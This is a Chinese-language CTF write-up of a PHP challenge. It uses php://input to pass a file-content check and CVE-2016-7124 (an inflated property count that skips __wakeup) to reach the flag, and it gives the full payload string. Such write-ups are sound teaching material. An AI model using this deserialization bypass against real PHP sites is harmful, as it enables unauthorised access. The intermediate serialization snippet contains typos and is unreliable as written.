


# bestphp

我用的 php 版本是 5.6.9

题目是⼀道简单的 php 反序列化

```php
<?php
highlight_file("index.php");
$txt = $_GET['txt'];
$payload = $_GET['payload'];
$flag = getenv("GZCTF_FLAG");

if (isset($txt) && file_get_contents($txt, 'r') === "welcome to r00t"){
    echo "Have fun! <br>";
    class Hint{
        public $target = "hello";
        function __wakeup(){
            $this->target = "wakeup!";
            echo $this->target."<br>";
        }
        function __destruct(){
            echo $this->target."<br>";
            if($this->target === "r00t")
            {
                echo $GLOBALS['flag'];
                echo "<br> Congratulations! <br>";
            }
            else {
                echo "you are not r00t!";
            }
        }
    }
    $target = unserialize($payload);
    
}
else {
    echo "Try again! <br>";
}
?>
```

要求传入 2 个参数，txt 参数要求是文件，而且内容是 `welcome to r00t` 并且是强等于

那就可以用到 php 的伪协议 `php://input` 把原始数据通过 POST 传入，直接用 burp 访问 `?txt=php://input` 同时 POST 传入参数 `welcome to r00t` 如果返回'have fun'则说明进入了第一层

或者用 hackbar 但是要把 mode 改成 raw 模式：

 

内部是一个 Hint 的 class 文件，有一个变量 target，两个函数 \_\_wakeup 函数和 \_\_destruct 函数，这两个是 php 的魔术方法：

> destruct 函数：在析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。
>
> wakeup 函数：在 unserialize() 会检查是否存在一个 wakeup() 方法。如果存在，则会先调用 wakeup 方法，预先准备对象需要的资源。

所以直接反序列化：

```php
<?php
	$flagFile = 'flag.txt';
	class Hint{
		public $target = "hello";
	}
	$a = new Hint();
	$a->target=r0ot;
	echo serialize(Sa);
?>
// 0:4:"Hint":1:{s:6:"target";s:4:"r00t";}
```

但是这样传递，在反序列化的时候，会调用 wakeup,他会把 target 变量赋值成 wakeup！

这样在析构函数的时候就不能通过了，可以通过

- PHP5 \< 5.6.25
- PHP7 \< 7.0.10

在这些版本中的 php 有这个 cve-2016-7124 漏洞，可以修改反序列化传递的参数，例如把 1 改成 2，使得 wakeup 函数被跳过，这个时候就可以正常执行，获得 flag



最终 payload `?txt=php://input&payload=O:4:"Hint":2:{s:6:"target";s:4:"r00t";}` 同时 POST 传递数据 `welcome to r00t` 